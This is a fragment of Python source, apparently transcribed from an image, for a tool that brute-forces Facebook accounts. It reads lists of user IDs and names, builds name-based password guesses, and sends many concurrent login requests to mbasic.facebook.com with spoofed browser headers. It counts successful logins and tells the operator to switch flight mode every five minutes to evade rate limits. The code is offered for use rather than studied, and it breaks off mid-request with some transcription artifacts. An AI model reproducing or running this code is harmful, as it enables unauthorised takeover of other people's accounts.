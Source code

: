                 linex()
        else:
                main()

def __file__():
        clear()
        file = input(f'{K} ENTER FILE NAME :- ');linex()
        try:
                _trail_ = open(file,'r').read().splitlines()
        except FileNotFoundError:
                print(f'{K} {D}NOT FOUND FILE');time.sleep(1)
                __file__()
        try:
                password = int(input(f'{K} YOUR PASSWORD LIMIT (1-20) :- '))
                linex()
        except:
                password = 1
        for __pas__ in range(password):
                plist.append(input(f'{K} EXAMPLE :- firstlast,first123,57273200\n{K} PASSWORD NO.{__pas__+1} :- '));linex()
        with tred(max_workers=30) as _tanisha_:
                tl = str(len(_trail_))
                clear()
                print(f'{K} TOTAL UID {D}:- {E}{tl}')
                print(f'{K} \033[38;5;208mUSE FLIGHT MODE EVERY 5 MINUTES');linex()
                for user in _trail_:
                        ids,names = user.split('|')
                        pasx = plist
                        _tanisha_.submit(ffb,ids,names,pasx,tl)
        print('')
        linex()
        print(f'{K} TOTAL OK {D}:-{E} {str(len(ok))}')
        linex()

def ffb(ids,names,pasx,tl):
        global loop,ok
        sys.stdout.write(f'\r\r{K} {A}[{E}PRINCE{A}] [{E}{loop}{B}/{E}{tl}{A}] {E}[OK:-{len(ok)}]');sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(' ')[0]
                try:
                        last = names.split(' ')[1]
                except:
                        last = first
                ps = first.lower()
                ps2 = last.lower()
                for fikr in pasx:
                        pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com','viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}